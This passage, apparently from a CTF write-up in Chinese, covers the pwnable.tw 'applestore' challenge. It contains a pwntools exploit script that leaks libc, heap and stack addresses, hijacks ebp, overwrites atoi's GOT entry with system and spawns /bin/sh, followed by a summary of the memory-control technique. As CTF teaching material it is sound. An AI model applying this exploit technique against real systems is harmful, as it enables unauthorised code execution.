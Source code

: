 ```python
    io.sendlineafter('> ',payload)

for i in range(16):
    action(add,'1')
for i in range(3):
    action(add,'2')
for i in range(3):
    action(add,'3')
for i in range(4):
    action(add,'4')
action(checkout,'y')

payload = 'y\x00'+p32(elf.got['puts'])+p32(1)+p32(0x0804B070)+p32(1)
action(cart,payload)

io.recvuntil('27: ')
libc_addr = u32(io.recv(4))-libc.symbols['puts']
io.recvuntil('28: ')
heap_addr = u32(io.recv(4))

environ_libc = libc_addr + libc.symbols['environ']

payload = 'y\x00' + p32(environ_libc) + 'a'*0x4 + p32(0)
action(cart,payload)
io.recvuntil("27: ")
stack_addr = u32(io.recv(4))

log.warn('libc_addr: 0x%x' % libc_addr)
log.warn('heap_addr: 0x%x' % heap_addr)
log.warn('stack_addr: 0x%x' % stack_addr)

atoi_got = elf.got['atoi']
system = libc_addr + libc.symbols['system']

payload = '27' + p32(stack_addr) + p32(1)
payload += p32(atoi_got + 0x22) + p32(stack_addr - 0x10c)
action(delete,payload)

io.sendlineafter("> ", p32(system) + ";/bin/sh")
io.interactive()
```

## 总结

从内存的控制与寄存器的劫持角度来说，本题的总结如下：

1. 首先可以写部分栈内存，通过彩蛋的漏洞与函数栈的平衡关系，利用题目中的函数可以扩大可读内存的范围，读到了GOT表，读到了堆，进而泄露了libc，堆，栈的信息。
2. 再通过漏洞本身触发一个有约束的地址写，写栈上的old_ebp，程序leave时进而劫持ebp寄存器。
3. 劫持ebp后，便可以通过题目本身的函数，将输入存储到当前函数根据ebp所控制的栈上，变扩大可写的内存范围为GOT表
4. 并且控制的GOT表的内存也被当做栈使用，即可控制流劫持并填好相应的参数

所以还是那句话：**二进制漏洞利用的过程，就是一步步扩大可以控制的内存的范围**。控制寄存器的目的一般最终还是为了控制更大的内存范围，另外还有就是函数调用时传递的参数可能需要劫持寄存器。



参考：

- [和媳妇一起学Pwn 之 applestore](https://xuanxuanblingbling.github.io/ctf/pwn/2020/03/06/applestore/)
- [pwnable.tw applestore 经验总结](https://blog.csdn.net/qq_43189757/article/details/102850665)

